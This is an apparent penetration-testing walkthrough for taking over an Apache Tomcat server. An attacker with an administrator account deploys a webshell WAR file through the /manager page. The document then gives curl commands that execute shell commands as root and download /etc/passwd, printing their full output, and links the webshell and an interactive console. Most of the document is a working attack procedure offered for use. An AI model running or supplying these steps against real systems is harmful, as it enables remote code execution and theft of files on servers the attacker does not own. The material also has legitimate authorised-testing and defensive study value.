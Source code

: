 # Apache Tomcat - Deploy an Application

## Requirements

 - A valid **username and password** of a user with high privileges on Apache Tomcat.

## Exploitation

### Step 1: Access the Tomcat manager and upload the webshell application

First of all, you will need to access the Apache Tomcat `/manager` page at http://TARGET:10080/manager/html, and connect to it with an high privilege account of the Apache Tomcat server.

![](./imgs/manager.png)

Compile the webshell application or download a release here: https://github.com/p0dalirius/Tomcat-application-webshell/. Then choose the WAR file of the [webshell application](https://github.com/p0dalirius/Tomcat-application-webshell/) and click on "Deploy":

![](./imgs/upload_a_plugin.png)

And the application is deployed:

![](./imgs/webshell_uploaded.png)

### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to http://TARGET:10080/webshell/api with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://TARGET:10080/webshell/api' --data "action=exec&cmd=id"
{"stdout":"uid=0(root) gid=0(root) groups=0(root)\n","stderr":"","exec":["/bin/bash","-c","id"]}
```

You can also access it by a GET request from a browser:

![](./imgs/exec_code_web.png)

### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to http://TARGET:10080/webshell/api with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://TARGET:10080/webshell/api' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](https://github.com/p0dalirius/Tomcat-application-webshell/console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/168489455-023b52c5-e8a9-4cd9-96ca-f26c14304236.mp4

## References
 - https://tomcat.apache.org/
 - https://github.com/p0dalirius/Tomcat-application-webshell/
